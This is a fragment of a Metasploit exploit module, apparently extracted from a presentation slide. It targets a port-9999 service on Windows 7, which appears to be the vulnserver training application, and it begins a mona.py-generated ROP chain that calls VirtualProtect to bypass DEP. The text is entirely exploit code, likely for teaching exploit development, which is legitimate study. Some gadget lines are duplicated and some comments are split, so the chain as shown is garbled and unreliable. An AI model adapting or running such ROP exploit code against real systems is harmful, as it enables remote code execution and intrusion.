

'Targets' =>
[
['Windows 7 Professional',{ 'Offset' => 2006}]
],
'DisclosureDate' => 'Mar 4 2018'
))
register_options(
[
Opt::RPORT(9999)
])
end
def create_rop_chain()
# rop chain generated with mona.py - www.corelan.be
rop_gadgets =
[
0x77dfb7e4, # POP ECX # RETN [RPCRT4.dll]
0x6250609c, # ptr to &VirtualProtect() [IAT essfunc.dll]
0x76a5fd52, # MOV ESI,DWORD PTR DS:[ECX] # ADD DH,DH # RETN
[MSCTF.dll]
0x766a70d7, # POP EBP # RETN [USP10.dll]
0x625011bb, # & jmp esp [essfunc.dll]
0x76a5fd52, # MOV ESI,DWORD PTR DS:[ECX] # ADD DH,DH # RETN
[MSCTF.dll]
0x766a70d7, # POP EBP # RETN [USP10.dll]
0x625011bb, # & jmp esp [essfunc.dll]
0x777f557c, # POP EAX # RETN [msvcrt.dll]
0xfffffdff, # Value to negate, will become 0x00000201
0x765e4802, # NEG EAX # RETN [user32.dll]